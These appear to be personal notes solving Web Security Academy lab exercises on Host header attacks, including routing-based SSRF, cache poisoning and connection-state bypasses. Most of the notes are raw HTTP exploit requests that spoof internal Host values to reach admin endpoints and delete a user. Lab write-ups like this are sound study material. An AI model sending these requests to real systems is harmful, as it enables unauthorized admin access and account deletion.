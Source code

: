 # Basic password reset poisoning
- You could change the host header to anything 

# Host header auth bypass
- Just change the host header to localhost

# Web cache via ambiguous request
- Use two host headers
- Make sure that the bad one is second
- Set exploit server to replace resources tracking js

# Routing SSRF
- If you put collaborator as the host, you would get DNS lookup
    - This means it is vulnerable
- Used intruder
    - set host header to 192.168.0.x where x is 1-254
- 161 gave a 200 on /admin
- Used this request to delete
```http
GET /admin/delete?csrf=0Xne3nIEScRVFmMVwXzI6ICwCMZUeHdI&username=carlos HTTP/2
Host: 192.168.0.161
Cookie: session=iFvrchUVCnqFL5lWG7It18e4MZneG69M; _lab=46%7cMCwCFE5O5R9S4xcBfu4WH8KQul4f0wQKAhQxwbQUPfKRH1jwUpoyam1W5yxK2RkHXQbDQ7jywRZ9gxiop%2fZF1%2ftfjDVj5ALSBD6kvjFkxYF%2fE9DZNgwym%2fa7%2fFh0QdFLCbbghurHjzkTuDpVInV%2bKCsf9KON8vpR9d%2fnzKDIu3Mqoro%3d
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Referer: https://192.168.0.161/
```

# SSRF via flawed request parsing
- To get the ip I used an intruder attack on the identify request
- To identify
```http
GET https://0a3900c7030632aa85e3170300ce00bf.web-security-academy.net/ HTTP/2
Host: bxcx05useyb77254sgqpjnb73y9pxhl6.oastify.com
Cookie: session=kEv4o0UMMeiQquP5ETB1kQKFHg5RQwiV; _lab=46%7cMCwCFFNxeLoJLto2gCiu%2fV22zWiEjncLAhR0wnFTgxjspPENBzKi8f0O2COGQwgdj0Z8n5xlmh9roZau0nxDIjFv8G6tO2Uoo%2fg%2b1FEHX2sTbFKYgr1QCyOkt7MN%2bvNsBmhO91rISHD4IDmJhXs%2buHv3yxu8vlhOHo%2fuwj0iat4Bj8Q%3d
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
- To exploit
```http
GET https://0a3900c7030632aa85e3170300ce00bf.web-security-academy.net/admin/delete?csrf=SQjaH33VM96ttY0oO5YPldaUgLxP2Joi&username=carlos HTTP/2
Host: 192.168.0.28
Cookie: session=kEv4o0UMMeiQquP5ETB1kQKFHg5RQwiV; _lab=46%7cMCwCFFNxeLoJLto2gCiu%2fV22zWiEjncLAhR0wnFTgxjspPENBzKi8f0O2COGQwgdj0Z8n5xlmh9roZau0nxDIjFv8G6tO2Uoo%2fg%2b1FEHX2sTbFKYgr1QCyOkt7MN%2bvNsBmhO91rISHD4IDmJhXs%2buHv3yxu8vlhOHo%2fuwj0iat4Bj8Q%3d
Cache-Control: max-age=0
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```


# Host validation via connection state
- Send the GET / request to Burp Repeater.
- Make the following adjustments:
    - Change the path to /admin.
    - Change Host header to 192.168.0.1.
- Send the request. Observe that you are simply redirected to the homepage.
- Duplicate the tab, then add both tabs to a new group.
- Select the first tab and make the following adjustments:
    - Change the path back to /.
    - Change the Host header back to YOUR-LAB-ID.h1-web-security-academy.net.
- Using the drop-down menu next to the Send button, change the send mode to Send group in sequence (single connection).
- Change the Connection header to keep-alive
- Req 1
```http
GET / HTTP/1.1
Host: 0a93004303441a208137343d00fc0036.h1-web-security-academy.net
Cookie: session=YTWBKIhXHUIHZy8sKdehhQOMANMk1s8y; _lab=46%7cMCwCFBUfr7B0h9%2fNQON5YmkRLYZl8j%2bHAhQT3Lz73RP7EphWIoxZVakvYUm2lnVlPJ2K6%2bV%2bT9%2fWn6CW%2faCAEc2D0nS12BTcP2RLiRunNI2jIm9lkk94nHKrkxjy%2fOFUpjfR9Jo9UtYKG5PdNtw6v63FhQ3Z2WO2wUusIZp9RofQfiuolQw%3d
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a93004303441a208137343d00fc0036.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
```
- Req 2
```http
GET /admin/delete?csrf=JtswdEH2qGxPiKpkNkG1AmCRmRFwWwBu&username=carlos HTTP/1.1
Host: 192.168.0.1
Cookie: session=YTWBKIhXHUIHZy8sKdehhQOMANMk1s8y; _lab=46%7cMCwCFBUfr7B0h9%2fNQON5YmkRLYZl8j%2bHAhQT3Lz73RP7EphWIoxZVakvYUm2lnVlPJ2K6%2bV%2bT9%2fWn6CW%2faCAEc2D0nS12BTcP2RLiRunNI2jIm9lkk94nHKrkxjy%2fOFUpjfR9Jo9UtYKG5PdNtw6v63FhQ3Z2WO2wUusIZp9RofQfiuolQw%3d
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a93004303441a208137343d00fc0036.h1-web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
